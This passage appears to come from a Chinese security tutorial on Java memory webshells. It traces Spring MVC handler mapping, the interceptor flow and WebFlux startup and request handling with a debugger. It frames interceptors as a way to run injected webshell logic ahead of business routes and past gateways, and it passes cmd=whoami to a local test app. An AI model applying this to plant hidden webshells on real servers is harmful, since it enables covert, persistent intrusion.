#### 2.11.2.2 url 和 Controller 的关系的建立

你可能会有这样的一个疑惑：我们是用`@RequestMapping("/")`注解在方法上的，那`Spring MVC`是怎么根据这个注解就把对应的请求和这个方法关联起来的？

从上面的九大组件的初始化中可以看到，有个方法就叫做`initHandlerMappings`，我们点进去详细看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002043-56e88a84-c830-1.jpeg)

这段代码和自带的注释写的也比较通俗易懂，分为两部分，第一部分是去`ApplicationContext`（包括`ancestor contexts`）里面找所有实现了`HandlerMappings`接口的类，如果找到了至少一个符合条件的`HandlerMapping bean`，那就把它的值转化为列表，并按照 Java 的默认排序机制对它们进行排序，最后将排序后的列表赋值给 `this.handlerMappings`；那如果没有找到，`this.handlerMappings`就依然保持为`null`；如果不需要检测所有处理程序映射，那就尝试从`ApplicationContext`中获取名称为 `handlerMapping` 的`bean`，如果成功获取到了则将其作为单一元素的列表赋值给 `this.handlerMappings`，如果获取失败了，那也没关系，因为人家注释里面讲的很明白，会添加一个默认的`HandlerMapping`，这也就是我们要讲的第二部分的代码。

第二部分说的是，如果之前一套操作下来，`this.handlerMappings`还是为`null`，那么就调用 `getDefaultStrategies` 方法去获取默认的`HandlerMapping`，并将其赋给 `this.handlerMappings`。

这么一看的话，`org.springframework.web.servlet.DispatcherServlet#getDefaultStrategies`这个方法还是挺关键的，我们点进去看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002045-57e49d74-c830-1.jpeg)

这段代码挺有意思，先是加载资源文件，并将其内容以属性键值对的形式存储在`defaultStrategies`中；接下来从`strategyInterface`获取一个名称，然后用这个名称在`defaultStrategies`中查找相应的值，如果找到了，就将这个值按逗号分隔成类名数组，接着遍历这个类名数组，对于每个类名都执行以下两个操作：①尝试通过`ClassUtils.forName`方法加载该类 ②使用`createDefaultStrategy`方法创建该类的实例；最后将创建的策略对象添加到列表`strategies`中并返回。

那就很好奇了，这段代码中的`DEFAULT_STRATEGIES_PATH`里面有啥？`Ctrl+左键`追踪：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002048-59c0b628-c830-1.jpeg)

原来是一个名叫`DispatcherServlet.properties`的文件，我们可以在左侧的依赖列表里面很快地翻到它，因为它应该是和`DispatcherServlet.java`在一块儿的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002051-5b49f284-c830-1.jpeg)

从文件内容中，我们可以很快地锁定关键信息：

```plain
org.springframework.web.servlet.HandlerMapping=org.springframework.web.servlet.handler.BeanNameUrlHandlerMapping,\
    org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping,\
    org.springframework.web.servlet.function.support.RouterFunctionMapping
```

也就是说，会有三个值，分别是`BeanNameUrlHandlerMapping`、`RequestMappingHandlerMapping`和`RouterFunctionMapping`，我们一般用的是第二个，我们点进`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping`看一下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002054-5d54589e-c830-1.jpeg)

它的父类`RequestMappingInfoHandlerMapping`的父类`AbstractHandlerMethodMapping`实现了`InitializingBean`这个接口，这个接口用于在`bean`初始化完成后执行一些特定的自定义初始化逻辑。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002057-5ed5b80c-c830-1.jpeg)

点进该接口，只有一个`afterPropertiesSet`方法，关于该方法的用途可以参考`https://www.python100.com/html/U711CO7MV79C.html`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002058-5f757be4-c830-1.jpeg)

那我们就看看`AbstractHandlerMethodMapping`它是具体咋实现`InitializingBean`的`afterPropertiesSet`的吧：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002059-60513076-c830-1.jpeg)

重写的也很简单，调用`initHandlerMethods`这个方法，继续跟踪该方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002101-6182e728-c830-1.jpeg)

注释里面写的很清楚：扫描`ApplicationContext`中的`bean`，然后检测并注册`handler methods`。

我们在`org.springframework.web.servlet.handler.AbstractHandlerMethodMapping#initHandlerMethods`这里打下断点进行调试，到图中这一步之后`step into`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002104-632a0214-c830-1.jpeg)

我们来看`org.springframework.web.servlet.handler.AbstractHandlerMethodMapping#processCandidateBean`这个方法的具体逻辑：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002106-64b773be-c830-1.jpeg)

这里我们自然很好奇，这个`isHandler`是判断啥的，我们点进去看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002108-6594dcae-c830-1.jpeg)

可以看到，这里并没有给出实现，说明子类中应该会给出`override`，于是直接找到了`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping#isHandler`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002110-66b58e3a-c830-1.jpeg)

很明显，`isHandler`是用来检测给定的`beanType`类是否带有`Controller`注解或者`RequestMapping`注解。

解决了这个，继续往后看，后面是调用了`detectHandlerMethods`这个方法，我们点进去看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002113-6865b340-c830-1.jpeg)

我们分开来看，首先是这行代码，它是综合起来写的，意思是说，先判断`handler`是否是字符串类型，如果是，则通过`ApplicationContext`获取它的类型；否则，直接获取`handler`的类型。：

```plain
Class<?> handlerType = (handler instanceof String ?
            obtainApplicationContext().getType((String) handler) : handler.getClass());
```

然后是这部分：

```plain
Class<?> userType = ClassUtils.getUserClass(handlerType);
Map<Method, T> methods = MethodIntrospector.selectMethods(userType,
        (MethodIntrospector.MetadataLookup<T>) method -> {
            try {
                return getMappingForMethod(method, userType);
            }
            catch (Throwable ex) {
                throw new IllegalStateException("Invalid mapping on handler class [" +
                        userType.getName() + "]: " + method, ex);
            }
        });
```

先是获取处理器的用户类，用户类是没有经过代理包装的类，这样就可以确保获取到的是实际处理请求的类；然后是这个`selectMethods`方法，这个方法有两个参数，第一个参数就是用户类，第二个参数是一个回调函数。关键就在于理解这个回调函数的作用。对于每个方法，它会尝试调用`getMappingForMethod`来获取方法的映射信息。

我们点进这个方法，发现它是一个抽象方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002114-69475a34-c830-1.jpeg)

那就去看看他的子类中有没有对应的实现，直接定位到`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping#getMappingForMethod`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002116-6a618b92-c830-1.jpeg)

我们在下图所示位置打断点调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002123-6e80c59e-c830-1.jpeg)

分开来看，首先是第一行：

```plain
RequestMappingInfo info = createRequestMappingInfo(method);
```

解析`Controller`类的方法中的注解，生成一个对应的`RequestMappingInfo`对象。我们可以`step into`进入`org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping#createRequestMappingInfo(java.lang.reflect.AnnotatedElement)`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002126-704eaa58-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002134-75037218-c830-1.jpeg)

可以看到这个`info`里面保存了访问该方法的`url pattern`是`"/"`，也就是我们在`TestController.java`所想要看到的当`@RequestMapping("/")`时，调用`test`方法。

继续一步步往下走，可以看到走到了`org.springframework.web.servlet.handler.AbstractHandlerMethodMapping#detectHandlerMethods`的最后：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002141-79568756-c830-1.jpeg)

直接看`lambda`表达式里面的内容：

```plain
Method invocableMethod = AopUtils.selectInvocableMethod(method, userType);
registerHandlerMethod(handler, invocableMethod, mapping);
```

意思是，先用`selectInvocableMethod`方法根据`method`和`userType`选择出一个可调用的方法，这样是为了处理可能存在的代理和`AOP`的情况，确保获取到的是可直接调用的原始方法；然后把`bean`、`Method`和`RequestMappingInfo`注册进`MappingRegistry`。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002149-7e1c4014-c830-1.jpeg)

到这里，`url`和`Controller`之间的关系是如何建立的问题就解决了。

#### 2.11.2.3 Spring Interceptor 引入与执行流程分析

我们回顾之前聊到的`Controller`的思路和下面的`4.1`节中所展示的`Controller`内存马，可以考虑到这样一个问题：

> 随着微服务部署技术的迭代演进，大型业务系统在到达真正的应用服务器的时候，会经过一些系列的网关、复杂均衡以及防火墙等。所以如果你新建的`shell`路由不在这些网关的白名单中，那么就很有可能无法访问到，在到达应用服务器之前就会被丢弃。我们要达到的目的就是在访问正常的业务地址之前，就能执行我们的代码。所以，在注入`java`内存马时，尽量不要使用新的路由来专门处理我们注入的`webshell`逻辑，最好是在每一次请求到达真正的业务逻辑前，都能提前进行我们`webshell`逻辑的处理。在`tomcat`容器下，有`filter`、`listener`等技术可以达到上述要求。那么在 `spring` 框架层面下，有办法达到上面所说的效果吗？ ——摘编自`https://github.com/Y4tacker/JavaSec/blob/main/5.内存马学习/Spring/利用intercetor注入Spring内存马/index.md`和`https://landgrey.me/blog/19/`

答案是当然有，这就是我们要讲的`Spring Interceptor`，`Spring`框架中的一种拦截器机制。

那就不禁要问了：这个`Spring Interceptor`和我们之前所说的`Filter`的区别是啥？

> 参考：[https://developer.aliyun.com/article/925400](https://developer.aliyun.com/article/925400)

主要有以下六个方面：

| 主要区别 | 拦截器 | 过滤器 |
| --- | --- | --- |
| 机制  | `Java`反射机制 | 函数回调 |
| 是否依赖`Servlet`容器 | 不依赖 | 依赖  |
| 作用范围 | 对`action`请求起作用 | 对几乎所有请求起作用 |
| 是否可以访问上下文和值栈 | 可以访问 | 不能访问 |
| 调用次数 | 可以多次被调用 | 在容器初始化时只被调用一次 |
| `IOC`容器中的访问 | 可以获取`IOC`容器中的各个`bean`（基于`FactoryBean`接口） | 不能在`IOC`容器中获取`bean` |

我们在`2.10.2`节中给出的`TestInterceptor.java`的`preHandle`函数这里下断点，然后访问`http://127.0.0.1:8080/?cmd=whoami`进入调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002152-801c1768-c830-1.jpeg)

一步步步入调试之后，发现进入`org.springframework.web.servlet.DispatcherServlet#doDispatch`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002208-8949f85a-c830-1.jpeg)

我们在`doDispatch`方法的第一行下断点，重新访问页面调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002220-90d22c3c-c830-1.jpeg)

看到了调用了`getHandler`这个函数，它的注释写的简单易懂：确定处理当前请求的`handler`，我们`step into`看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002239-9bb7c5f8-c830-1.jpeg)

通过遍历当前`handlerMapping`数组中的`handler`对象，来判断哪个`handler`来处理当前的`request`对象：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002244-9f211c80-c830-1.jpeg)

继续步入这个函数里面所用到的`mapping.getHandler`方法，也就是`org.springframework.web.servlet.handler.AbstractHandlerMapping#getHandler`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002250-a26682c2-c830-1.jpeg)

代码简单易懂，先是通过`getHandlerInternal`来获取，如果获取不到，那就调用`getDefaultHandler`来获取默认的，如果还是获取不到，就直接返回`null`；然后检查`handler`是不是一个字符串，如果是，说明可能是一个`Bean`的名字，这样的话就通过`ApplicationContext`来获取对应名字的`Bean`对象，这样就确保 `handler` 最终会是一个合法的处理器对象；接着检查是否已经有缓存的请求路径，如果没有缓存就调用 `initLookupPath(request)` 方法来初始化请求路径的查找；最后通过 `getHandlerExecutionChain` 方法创建一个处理器执行链。

这么看下来，这个`getHandlerExecutionChain`方法很重要，我们步入看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002253-a4386c46-c830-1.jpeg)

遍历`adaptedInterceptors`，判断拦截器是否是`MappedInterceptor`类型，如果是那就看`MappedInterceptor`是否匹配当前请求，如果匹配则将其实际的拦截器添加到执行链中，如果不是这个类型的那就直接将拦截器添加到执行链中。

再回到之前的`getHandler`方法中来，看看它的后半段：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002258-a721cb28-c830-1.jpeg)

主要都是处理跨域资源共享（`CORS`）的逻辑，只需要知道在涉及`CORS`的时候把`request`、`executionChain`和`CORS`配置通过`getCorsHandlerExecutionChain`调用封装后返回就行了。

一步步执行回到一开始的`getHandler`中，这里就是调用`org.springframework.web.servlet.HandlerExecutionChain#applyPreHandle`方法来遍历所有拦截器进行预处理，后面的代码就基本不需要了解了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002301-a9048a20-c830-1.jpeg)

## 2.12 Spring WebFlux 介绍与代码调试分析

`SpringWebFlux`是`Spring Framework 5.0`中引入的新的响应式`web`框架。传统的`Spring MVC`在处理请求时是阻塞的，即每个请求都会占用一个线程，如果有大量请求同时到达，就需要大量线程来处理，可能导致资源耗尽。为了解决这个问题，`WebFlux`引入了非阻塞的响应式编程模型，通过使用异步非阻塞的方式处理请求，能够更高效地支持大量并发请求，提高系统的吞吐量；并且它能够轻松处理长连接和`WebSocket`，适用于需要保持连接的应用场景，如实时通讯和推送服务；在微服务架构中，服务之间的通信往往需要高效处理，`WebFlux`可以更好地适应这种异步通信的需求。

关于`Reactive`和`Spring WebFlux`的相关知识，可以参考知乎上的这篇文章，讲的通俗易懂，很透彻：

> [https://zhuanlan.zhihu.com/p/559158740](https://zhuanlan.zhihu.com/p/559158740)

`WebFlux`框架开发的接口返回类型必须是`Mono<T>`或者是`Flux<T>`。因此我们第一个需要了解的就是什么是`Mono`以及什么是`Flux`。

### 2.12.1 什么是 Mono？

`Mono`用来表示包含`0`或`1`个元素的异步序列，它是一种异步的、可组合的、能够处理异步数据流的类型。比方说当我们发起一个异步的数据库查询、网络调用或其他异步操作时，该操作的结果可以包装在`Mono`中，这样就使得我们可以以响应式的方式处理异步结果，而不是去阻塞线程等待结果返回，就像我们在`2.10.3`节中的那张`gif`图中所看到的那样。

下面我们来看看`Mono`常用的`api`：

| API | 说明  | 代码示例 |
| --- | --- | --- |
| `Mono.just(T data)` | 创建一个包含指定数据的 `Mono`。 | `Mono<String> mono = Mono.just("Hello, Mono!");` |
| `Mono.empty()` | 创建一个空的 `Mono`。 | `Mono<Object> emptyMono = Mono.empty();` |
| `Mono.error(Throwable error)` | 创建一个包含错误的 `Mono`。 | `Mono<Object> errorMono = Mono.error(new RuntimeException("Something went wrong"));` |
| `Mono.fromCallable(Callable<T> supplier)` | 从 Callable 创建 `Mono`，表示可能抛出异常的异步操作。 | `Mono<String> resultMono = Mono.fromCallable(() -> expensiveOperation());` |
| `Mono.fromRunnable(Runnable runnable)` | 从 Runnable 创建 `Mono`，表示没有返回值的异步操作。 | `Mono<Void> runnableMono = Mono.fromRunnable(() -> performAsyncTask());` |
| `Mono.delay(Duration delay)` | 在指定的延迟后创建一个空的 `Mono`。 | `Mono<Object> delayedMono = Mono.delay(Duration.ofSeconds(2)).then(Mono.just("Delayed Result"));` |
| `Mono.defer(Supplier<? extends Mono<? extends T>> supplier)` | 延迟创建 `Mono`，直到订阅时才调用供应商方法。 | `Mono<String> deferredMono = Mono.defer(() -> Mono.just("Deferred Result"));` |
| `Mono.whenDelayError(Iterable<? extends Mono<? extends T>> monos)` | 将一组 `Mono` 合并为一个 `Mono`，当其中一个出错时，继续等待其他的完成。 | `Mono<String> resultMono = Mono.whenDelayError(Arrays.asList(mono1, mono2, mono3));` |
| `Mono.map(Function<? super T, ? extends V> transformer)` | 对 `Mono` 中的元素进行映射。 | `Mono<Integer> resultMono = mono.map(s -> s.length());` |
| `Mono.flatMap(Function<? super T, ? extends Mono<? extends V>> transformer)` | 对 `Mono` 中的元素进行异步映射。 | `Mono<Integer> resultMono = mono.flatMap(s -> Mono.just(s.length()));` |
| `Mono.filter(Predicate<? super T> tester)` | 过滤 `Mono` 中的元素。 | `Mono<String> filteredMono = mono.filter(s -> s.length() > 5);` |
| `Mono.defaultIfEmpty(T defaultVal)` | 如果 `Mono` 为空，则使用默认值。 | `Mono<String> resultMono = mono.defaultIfEmpty("Default Value");` |
| `Mono.onErrorResume(Function<? super Throwable, ? extends Mono<? extends T>> fallback)` | 在发生错误时提供一个备用的 `Mono`。 | `Mono<String> resultMono = mono.onErrorResume(e -> Mono.just("Fallback Value"));` |
| `Mono.doOnNext(Consumer<? super T> consumer)` | 在成功时执行操作，但不更改元素。 | `Mono<String> resultMono = mono.doOnNext(s -> System.out.println("Received: " + s));` |
| `Mono.doOnError(Consumer<? super Throwable> onError)` | 在发生错误时执行操作。 | `Mono<String> resultMono = mono.doOnError(e -> System.err.println("Error: " + e.getMessage()));` |
| `Mono.doFinally(Consumer<SignalType> action)` | 无论成功还是出错都执行操作。 | `Mono<String> resultMono = mono.doFinally(signal -> System.out.println("Processing finished: " + signal));` |

### 2.12.2 什么是 Flux？

`Flux`表示的是`0`到`N`个元素的异步序列，可以以异步的方式按照时间的推移逐个或一批一批地`publish`元素。也就是说，`Flux`允许在处理元素的过程中，不必等待所有元素都准备好，而是可以在它们准备好的时候立即推送给订阅者。这种异步的推送方式使得程序可以更灵活地处理元素的生成和消费，而不会阻塞执行线程。

下面是`Flux`常用的`api`：

| API | 说明  | 代码示例 |
| --- | --- | --- |
| **`Flux.just`** | 创建包含指定元素的`Flux` | `Flux<String> flux = Flux.just("A", "B", "C");` |
| **`Flux.fromIterable`** | 从`Iterable`创建`Flux` | `List<String> list = Arrays.asList("A", "B", "C");`  <br>`Flux<String> flux = Flux.fromIterable(list);` |
| **`Flux.fromArray`** | 从数组创建`Flux` | `String[] array = {"A", "B", "C"};`  <br>`Flux<String> flux = Flux.fromArray(array);` |
| **`Flux.empty`** | 创建一个空的`Flux` | `Flux<Object> emptyFlux = Flux.empty();` |
| **`Flux.error`** | 创建一个包含错误的`Flux` | `Flux<Object> errorFlux = Flux.error(new RuntimeException("Something went wrong"));` |
| **`Flux.range`** | 创建包含指定范围的整数序列的`Flux` | `Flux<Integer> rangeFlux = Flux.range(1, 5);` |
| **`Flux.interval`** | 创建包含定期间隔的元素的`Flux` | `Flux<Long> intervalFlux = Flux.interval(Duration.ofSeconds(1)).take(5);` |
| **`Flux.merge`** | 合并多个 Flux，按照时间顺序交织元素 | `Flux<String> flux1 = Flux.just("A", "B");`  <br>`Flux<String> flux2 = Flux.just("C", "D");`  <br>`Flux<String> mergedFlux = Flux.merge(flux1, flux2);` |
| **`Flux.concat`** | 连接多个`Flux`，按照顺序发布元素 | `Flux<String> flux1 = Flux.just("A", "B");`  <br>`Flux<String> flux2 = Flux.just("C", "D");`  <br>`Flux<String> concatenatedFlux = Flux.concat(flux1, flux2);` |
| **`Flux.zip`** | 将多个`Flux`的元素进行配对，生成`Tuple` | `Flux<String> flux1 = Flux.just("A", "B");`  <br>`Flux<String> flux2 = Flux.just("1", "2");`  <br>`Flux<Tuple2<String, String>> zippedFlux = Flux.zip(flux1, flux2);` |
| **`Flux.filter`** | 过滤满足条件的元素 | `Flux<Integer> numbers = Flux.range(1, 5);`  <br>`Flux<Integer> filteredFlux = numbers.filter(n -> n % 2 == 0);` |
| **`Flux.map`** | 转换每个元素的值 | `Flux<String> words = Flux.just("apple", "banana", "cherry");`  <br>`Flux<Integer> wordLengths = words.map(String::length);` |
| **`Flux.flatMap`** | 将每个元素映射到一个`Flux`，并将结果平铺 | `Flux<String> letters = Flux.just("A", "B", "C");`  <br>`Flux<String> flatMappedFlux = letters.flatMap(letter -> Flux.just(letter, letter.toLowerCase()));` |

### 2.12.3 Spring WebFlux 启动过程分析

本来是想先用文字聊一堆关于`Spring MVC`和`Spring WebFlux`之间的区别的，但是这个已经被网上现有的不多的关于`WebFlux`的文章讲烂了，大家随便搜都可以搜到，皮毛性的东西纯属浪费时间，于是我们直接看代码，去深挖`WebFlux`的调用过程，从中我们自然可以发现这两者在调用过程中的类似和不同的地方。

我们直接在`run`方法这里下断点，然后直接`step into`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002303-aa7ca6ee-c830-1.jpeg)

一步步地`step over`之后，我们可以看到调用了`org.springframework.boot.SpringApplication#createApplicationContext`这个方法（前面的那些方法并不重要，直接略过就行）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002308-ad4f6f00-c830-1.jpeg)

这个方法光听名字`createApplicationContext`，就感觉很重要，因为字面意思就是创建`ApplicationContext`，这正是我们感兴趣的内容，我们`step into`进去看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002314-b092dabc-c830-1.jpeg)

可以看到，是根据不同的`webApplicationType`去选择创建不同的`context`，比如我们这里的`webApplicationType`就是`REACTIVE`，也就是响应式的。

我们`step into`这里的`create`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002323-b642af5a-c830-1.jpeg)

发现里面有两个静态方法、一个`create`方法和一个默认实现 `DEFAULT`，这个默认实现通过加载 `ApplicationContextFactory` 的所有候选实现，创建相应的上下文；如果没有找到合适的实现，则默认返回一个 `AnnotationConfigApplicationContext` 实例。

我们继续`step over`走下去，可以看到我们`REACTIVE`对应的`context`是`AnnotationConfigReactiveWebServerApplicationContext`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002339-bfda1d28-c830-1.jpeg)

继续往下走，我们会回到一开始这里，可以看到接下来会调用`prepareContext`、`refreshContext`和`afterRefresh`方法，这个过程就是一系列的初始化、监听的注册等操作：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002346-c419aade-c830-1.jpeg)

我们`step into`这里的`refreshContext`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002350-c646eaa6-c830-1.jpeg)

接着`step into`这里的`refresh`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002353-c83aee52-c830-1.jpeg)

进来之后，接着`step into`这里的`refresh`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002355-c915eae8-c830-1.jpeg)

可以看到，这里调用了一个`super.refresh`，也就是父类的`refresh`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002357-ca558a9e-c830-1.jpeg)

我们继续`step into`查看，发现这里调用了`onRefresh`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002358-cb21e634-c830-1.jpeg)

我们`step into`这里的`onRefresh`，发现它调用了关键的`org.springframework.boot.web.reactive.context.ReactiveWebServerApplicationContext#createWebServer`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002400-cc2becf0-c830-1.jpeg)

继续`step over`可以看到，由于我们使用的是`Netty`而不是`Tomcat`，因此这里最终会调用`NettyReactiveWebServerFactory`类中的`getWebServer`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002402-cd6d7f3e-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002404-ceacacee-c830-1.jpeg)

而上图中的`WebServerManager`类也是一个重要的封装类，里面有两个成员变量，一个是底层服务器的抽象`WebServer`，另一个是上层方法处理者的抽象`DelayedInitializationHttpHandler`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002406-cf7f921c-c830-1.jpeg)

那这个`webserver`具体是怎么启动的呢？我们继续走到`finishRefresh`这个方法这里来，如果这里我们直接无脑`step over`，程序最终会回到`run`方法，说明，启动`webserver`的地方肯定就在这个`finishRefresh`方法里面：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002407-d054c612-c830-1.jpeg)

我们`step into`进去看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002408-d13525cc-c830-1.jpeg)

接着`step into`去看看这里调用的`getLifecycleProcessor().onRefresh()`方法，发现调用了`startBeans`方法，并且设置了自启动：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002410-d200f5d0-c830-1.jpeg)

我们直接`step into`这个`startBeans`方法，一步步地`step over`过后，会发现调用了`start`方法，看来我们在逐渐逼近真相：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002411-d2e2f656-c830-1.jpeg)

我们继续`step into`这个`start`方法，发现调用了`org.springframework.context.support.DefaultLifecycleProcessor#doStart`这个方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002413-d3d91f18-c830-1.jpeg)

直接`step into`进去看看，发现由于`dependenciesForBean`为\[\]，所以没有调用`doStart`方法，直接就是调用`bean.start()`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002414-d4bfb680-c830-1.jpeg)

继续`step into`这个`start`方法看看：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002416-d5d6397c-c830-1.jpeg)

怎么会啥也没有呢？奇了怪了，到底是哪里出了问题了呢？我在这一步愣住了，决定把之前打的断点取消，在如下俩图所示的位置打上断点重新调试，因为这两个方法是关键方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002420-d7f4c638-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002423-d9de50f4-c830-1.jpeg)

调试了几遍之后发现是我疏忽了，这里的`this.lifecycleBeans`里面其实有三个，每调用一次`doStart`方法就会删掉一个：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002426-dbaa7a52-c830-1.jpeg)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002430-ddecfe3e-c830-1.jpeg)

可以看到，我们刚才调用的是第一个`bean`的，所以当然没有启动`webserver`相关的方法了：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002433-dff289d8-c830-1.jpeg)

我们一步步`step over`，当`memeber.name`为`webServerStartStop`时，我们再`step into`这个`doStart`方法里面的`bean.start()`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002436-e1e0d754-c830-1.jpeg)

即可看到`this.weServerManager.start()`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002440-e43032c0-c830-1.jpeg)

我们继续`step into`这个`start`方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002501-f0c5a0e2-c830-1.jpeg)

仔细看看上面红框中的代码，先是初始化`HttpHandler`，这个方法其实根据`lazyInit`的值的不同来决定何时初始化，如果`lazyInit`值为`true`，那么就等第一次请求到来时才真正初始化；如果为`false`，那么就在 `WebServerManager` 的 `start` 方法中调用 `initializeHandler` 直接初始化：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002508-f48ca14e-c830-1.jpeg)

我们继续步入这里的`start`方法，发现其位置为`org.springframework.boot.web.embedded.netty.NettyWebServer#start`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002525-ff1e2a74-c830-1.jpeg)

到这里才算真正明了，真正的`webServer`启动的关键方法是`org.springframework.boot.web.embedded.netty.NettyWebServer#startHttpServer`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002537-0637a858-c831-1.jpeg)

从下面的`this.webServer`中也可以看到，绑定的是`0.0.0.0:9191`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002555-10edc660-c831-1.jpeg)

### 2.12.4 Spring WebFlux 请求处理过程分析

当一个请求过来的时候，`Spring WebFlux`是如何进行处理的呢？

这里我们在`org.example.webfluxmemoryshelldemo.hello.GreetingHandler#hello`这里打上断点，然后进行调试，访问`http://127.0.0.1:9191/hello`触发`debug`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002609-18e5f55e-c831-1.jpeg)

一步步地`step over`后来到`org.springframework.web.reactive.DispatcherHandler#invokeHandler`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002625-22a8c058-c831-1.jpeg)

`step into`之后可以看到是`org.springframework.web.reactive.DispatcherHandler#handle`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002630-25b9c0a8-c831-1.jpeg)

解释上面代码中的`return`部分，首先检查`handlerMappings`是否为`null`，如果是，那就调用`createNotFoundError`方法返回一个表示未找到处理程序的`Mono`；接着通过`CorsUtils.isPreFlightRequest`方法检查是否为预检请求，如果是，那就调用`handlePreFlight`方法处理预检请求，如果不是预检请求且`handlerMappings`不为`null`，通过一系列的操作，获取到请求的`handler`，然后调用`invokeHandler`方法执行处理程序，再调用`handleResult`方法处理执行结果，最终返回一个表示处理完成的`Mono`。

左下角的`Threads & Variables`这里，我们往下翻，可以看到在此之前是调用了一个`org.springframework.web.reactive.handler.AbstractHandlerMapping#getHandler`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002637-2a075148-c831-1.jpeg)

我们把之前的断点去掉，然后在该函数这里打上断点：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002659-36b7b7de-c831-1.jpeg)

发现调用了`org.springframework.web.reactive.handler.AbstractHandlerMapping#getHandlerInternal`，我们再回去看，发现调用位置在`org.springframework.web.reactive.function.server.support.RouterFunctionMapping#getHandlerInternal`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002700-37c40a38-c831-1.jpeg)

点击去：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002702-38a6221a-c831-1.jpeg)

这里最终创建的是`DefaultServerRequest`对象，需要注意的是在创建该对象时将`RouterFunctionMapping`中保存的`HttpMessageReader`列表作为参数传入，这样`DefaultServerRequest`对象就有了解析参数的能力。

回到`getHandlerInternal`这个函数，看它的`return`里面的匿名函数，发现其调用了`org.springframework.web.reactive.function.server.RouterFunction#route`，我们点进去看看：

发现只是在接口中定义了下：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002704-39bf3538-c831-1.jpeg)

于是去翻之前的`Threads & Variables`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002705-3aaf2048-c831-1.jpeg)

首先调用`this.predicate.test`方法来判断传入的`ServerRequest`是否符合路由要求，如果匹配到了处理方法，那就将保存的`HandlerFunction`实现返回，否则就返回空的`Mono`。

点进去这个`test`方法，发现还是个接口，结合之前的`RouterFunction.java`和`RouterFunctions.java`的命名规则，合理猜测`test`方法的实现应该是在`RequestPredicates.java`里面。果然是有的，我们取消之前下的所有断点，在`test`函数这里重新打上断点后调试：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240211002707-3b81c5ca-c831-1.jpeg)

